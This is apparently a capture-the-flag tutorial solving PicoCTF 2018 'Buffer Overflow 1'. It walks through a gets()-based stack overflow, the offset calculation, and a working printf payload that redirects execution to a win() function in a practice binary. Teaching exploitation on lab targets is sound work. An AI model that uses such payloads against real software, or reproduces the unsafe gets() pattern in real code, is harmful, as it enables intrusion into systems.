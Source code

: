 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 1
description: The training-wheels come off, and you have to use the buffer-overflow vulnerability to execute a specific bit of code at an exact location in memory. The question is, can you get it to work?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 1

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

Once again, finding the bug is easy, as it's almost identical to the [last challenge]({% link _reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-0.md %}):

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The buffer once again lives on the stack and has a fixed size (32 bytes). There are no other variables on the stack. The `gets` function is used, which is highly **unsafe**, as it will copy characters from `stdin` until either a newline character is found or the *end-of-file* is reached, making it trivial to overflow the `buf` variable and overwrite anything following it in memory, including the stack frame's preserved `ebp` register and *return address*.

## Strategy

Now that we found the bug, we need a plan to use that bug in a way that will allow us to capture the flag. They've taken off the training wheels *slightly* here, as there is no segfault handler registered. However, there **is** a handy dandy function that will print out the flag if called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Since we no longer have a default-crash handler to fallback on, we will have to actually change the flow of execution so that the `win()` function gets called. Here, the `win()` function has been compiled into the program and exists within the `.text` segment of the binary at a fixed address (ASLR does not apply as the program is not compiled as a [Position-independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) or *PIE*). **Note**: if you install [`pwntools`](https://github.com/Gallopsled/pwntools) you can run `checksec` from your shell to quickly check the security properties of binaries, including whether they are compiled as PIE. Use `readelf -s` or `objdump -t` or `nm` to display the address of all the exported symbols within the binary:

```
$ checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

$ readelf -s ./vuln | grep win
    67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In this case, the code for the function `win()` begins at the address `0x080485cb`. 

If you were paying attention during [buffer overflow 0]({% link _reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-0.md %}) you might have a good idea of what to do now, so go and attempt the problem located at `/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613` on the shell server.

## Background Info

You should recall from [buffer overflow 0]({% link _reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-0.md %}) that the stack looks something like this after calling `vuln()`:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[32]` | &lt; padding &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

In order to change the flow of execution, what we need to do is overwrite the *return address* so that when the `ret` instruction is called, the execution continues at the memory address *we want* (instead of whatever instructions followed the call to `vuln()`). We know there are 32 bytes allocated for the buffer, but we don't yet know for sure how many padding bytes there are.

To figure it out, we once again peak at the assembly code for `vuln()` using `objdump -M intel -S ./vuln`:

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x28
sub    esp,0xc
lea    eax,[ebp-0x28]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
call   80486c0 <get_return_address>
sub    esp,0x8
push   eax
push   0x80487d4
call   8048420 <printf@plt>
add    esp,0x10
nop
leave  
ret  
```

In this case, 0x28 (40) bytes are reserved on the stack, meaning there are an additional **8 bytes of padding**.

**NOTE**: *For the curious, this value of padding is likely chosen because the compiler is required to keep 16-byte alignment on the stack as part of the **ABI**, and reserving 40 bytes in addition to the 4 bytes for the preserved `ebp` register and the 4 bytes for the **return address** results in a total of exactly 48 bytes, which is a multiple of 16. You'll notice the call to `gets` first reserves 0x0c (12) bytes off the stack, before pushing 4 more (the value of `eax`), again resulting in a perfect 16 byte alignment.*

## Exploitation

We've calculated that if we start from the beginning of `buf[]`, then there are exactly **32** (`buf`) + **8** (*padding*) + **4** (*preserved `ebp`*) bytes before the *return address*. We've also determined that we should execute the `win()` function, which is at address `0x080485cb`.

In general, we don't care about the bytes that end up in the `buf[]` variable or the `padding`. We may care about the bytes that end up in the `ebp` register (the previous challenge proved that), but in this case we know that even if returning from `win()` results in a crash, it will have already printed out the flag because the `stdout` stream has been explicitly set to non-buffered (`_IONBF`).

So, when prompted, we should provide 44 bytes of *something* (I arbitrarily chose 0x55, aka 'U', because of the repeating cycle of `0`s and `1`s when represented in binary), followed by the address of `win`. Recall, `gets()` will only copy up to the first newline ('`\n`'), and it will always add a terminating null ('`\0`').

At this point you might be temped to form a string that looks like this:

```
"UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb"
```

However, that won't work:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0xcb850408
Segmentation fault
```
{:.contains-term}

Why did it *segfault*? The hint is in the helpful printing of the return address. Instead of jumping to `0x080485cb`, the program is jumping to `0xcb850408`. The reason is that memory on many machines, including x86 and x86-64 is little-endian. That means that when storing values larger than 1 byte, the bytes are arranged so that the least-significant byte is stored first, followed by the next least-significant, and so on. The least-significant byte of `0x080485cb` is `0xcb`, and that byte should appear first, followed by `0x85`, `0x04`, and `0x08`. Let's try it:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xcb\x85\x04\x08" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Eh voilà! You've successfully exploited a buffer-overflow vulnerability. Good Job. Head back to our  [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.